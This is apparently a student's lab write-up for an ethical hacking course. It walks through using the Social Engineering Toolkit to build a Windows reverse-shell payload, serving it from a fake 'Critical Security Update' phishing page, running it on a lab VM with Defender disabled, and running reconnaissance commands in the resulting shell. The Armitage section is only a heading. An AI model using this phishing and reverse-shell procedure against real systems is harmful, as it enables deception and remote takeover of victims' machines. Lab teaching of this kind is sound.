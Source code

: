 <div style="display: flex; justify-content: space-between; align-items: center;">
  <span style="text-align: left;"><strong>Horacio Gonzalez</strong></span>
  <span style="text-align: center;"><strong>SET and Armitage</strong></span>
  <span style="text-align: right;"><strong>ICT450 Ethical Hacking</strong></span>
</div>

#### **Overview**
In this lab we show the use of the Social Engineering Toolkit (SET), Metasploit, and Armitage for exploiting a Windows 8.1 machine. The steps include importing the Windows machine into VirtualBox, creating a reverse shell payload, hosting the payload using a phishing webpage, and using Armitage to exploit the system and gain control of the target machine.



#### **1. Environment Setup**
##### **1.1 Import the Windows 8.1 Machine into VirtualBox**
1. Open VirtualBox and navigate to **File** -> **Import Appliance**.
2. Select the `.ova` file for the Windows 8.1 virtual machine.
3. Follow the prompts and ensure the virtual machine is configured to use **Host-Only Adapter**.
4. Start the Windows 8.1 VM and log in with the following password:
   - **Password:** `AggiesR0ck$`

5. Click the Windows Key and search for Windows Defender
![alt text](image.png)      

6. Open Windows Defender, go to settings, disable Real Time Protection and Save changes.
![alt text](image-1.png)     


##### 1.2 Update and Configure Kali
1. Open a terminal in Kali Linux and update the system:
   ```bash
   sudo apt update -y && sudo apt full-upgrade -y
    ```
2. Start required services in Kali:
    ```
    sudo systemctl start apache2
    ```
3. Verify the services are running:
    ```
    sudo systemctl status apache2
    ```

#### **2. Using the Social Engineering Toolkit (SET) In Kali**
##### 2.1 Launch SET
1. We will start by launching SET, open a terminal and type:
   ```
   sudo setoolkit
    ```
![alt text](image-2.png)      

2. From the SET menu select `1) Social Engineering Attacks` and click enter (just enter the number and enter), then select `4) Create a Payload and Listener`.    

![alt text](image-4.png)      

![alt text](image-3.png)     


3. Then we will select the payload type, so enter `4) Windows Shell Reverse_TCP x64`    

![alt text](image-5.png)     


4. Configure the payload:
   1. LHOST: Enter the IP of your Kali machine `(192.168.56.4)` 
   2. LPORT: `443`   

![alt text](image-6.png)     

5. Allow SET to generate the payload but `do not` start the listener yet.   
![alt text](image-7.png)     

6. Just leave the terminal as it is and open a new terminal.

#### In a New Terminal
##### 2.2 Host the Payload,
1. Move the payload to the Apache web directory:
    ```
    sudo mv /root/.set/payload.exe /var/www/html/shPayload.exe
    ```
2. Verify the payload is in the correct directory:
    ```
    ls /var/www/html
    ```
![alt text](image-8.png)    


##### 2.3 Create a Phishing Webpage
1. Create a fake HTML page to trick users into downloading the payload:
    ```
    echo '<html>
    <head><title>Important Update</title></head>
    <body>
    <h1>Critical Security Update</h1>
    <p>Click the link below to download the update:</p>
    <a href="shPayload.exe">Download Update</a>
    </body>
    </html>' | sudo tee /var/www/html/index.html
    ```   
2. Verify the page is correctly saved:
    ```
    cat /var/www/html/index.html
    ```   
    ![alt text](image-9.png)      

3. Restart the Apache server to serve the payload and the webpage:
    ```
    sudo systemctl restart apache2
    ```

##### 2.4 Go back to the terminal with the payload we haven't started
1. Go back to the SET terminal and enter `yes` and hit Enter to start the payload listener.   

![alt text](image-10.png)      


2. SET will now wait for the reverse shell connection.
3. We can open a new terminal and check if we have done this correctly by checking the ports open with:
    ```
    sudo netstat -plnt
    ```   

    ![alt text](image-11.png)    

4. Go back to the Metasploit/SET terminal and keep it open

##### 2.5 Go to the Windows machine
1. Inside the Windows machine open Firefox and go to (your Kali's IP):
    ```
    http://192.168.56.4
    ```    
![alt text](image-12.png)     

2. Download the payload
3. Go to the file location
4. Right-Click the file and click `Properties`    
![alt text](image-13.png)      

5. Click `Unblock` and click `Apply`, then `OK`

![alt text](image-14.png)      

6. Now open the File

##### 2.6 Inside the Kali Machine
1. We should see that a shell session was opened 
2. To list all the sessions opened
    ```
    sessions -l
    ```
3. Then to interact with the session
    ```
    sessions -i <sessionID>
    ```   

![alt text](image-15.png)     


4. If we did everything correctly, we should be inside the machine, so run a couple of commands to check if we are indeed inside the target and get info about the system.
    ```
    dir
    hostname
    wmic os get caption
    wmic computersystem get username
    wmic process list brief
    ```

![alt text](<Screenshot 2024-11-22 184434.png>)    

5. Once we are done exploiting the Windows machine we can close the reverse shell entering `exit`.
6. We enter `exit` one more time to exit Metasploit.
7. We can now close the terminal.
   
#### 3. Using Armitage
